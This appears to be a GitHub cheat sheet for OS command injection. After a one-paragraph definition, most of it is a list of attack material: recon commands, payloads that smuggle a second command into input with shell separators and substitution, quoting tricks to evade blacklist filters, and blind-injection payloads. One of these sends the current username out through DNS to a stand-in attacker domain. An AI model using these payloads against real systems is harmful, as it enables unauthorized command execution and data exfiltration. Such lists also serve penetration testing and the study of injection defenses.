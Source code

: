 Command Injection
-----------------------------------

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

Useful commands:  
-----------------------------------

Linux:    
whoami --- Name of current user.    
uname -a --- Operating system.    
ifconfig	--- Network configuration.    
netstat -an --- Network connections.   
ps -ef --- Running processes.	       

Windows:    
whoami --- Name of current user.    
ver --- Operating system.   
ipconfig /all --- Network configuration.   
netstat -an --- Network connections.   
tasklist --- Running processes.   

Basic payloads: 
-----------------------------------
```
valid_command ;ls      ---  Execute ls after valid_command
valid_command && ls    ---  Execute ls after if valid_command return 0(success)
valid_command | ls     ---  Sends the output of valid_command as input to ls
valid_command || ls    ---  Executes ls iff valid_command returns a nonzero exit status(error)
valid_command $(ls)    ---  Sends the output of ls as arguments to valid_command
valid_command `ls`     ---  Sends the output of ls as arguments to valid_command
```

Bypass Blacklisted words:
-----------------------------------
```
w'h'o'am'i
w"h"o"am"i
w\ho\am\i
/\b\i\n/////s\h
```

Blind command injection payloads:
-----------------------------------
```
& ping -c 10 127.0.0.1 &
& whoami > /var/www/static/whoami.txt &
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

References:
-----------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Code_injection)     
[Owasp](https://www.owasp.org/index.php/Command_Injection)   
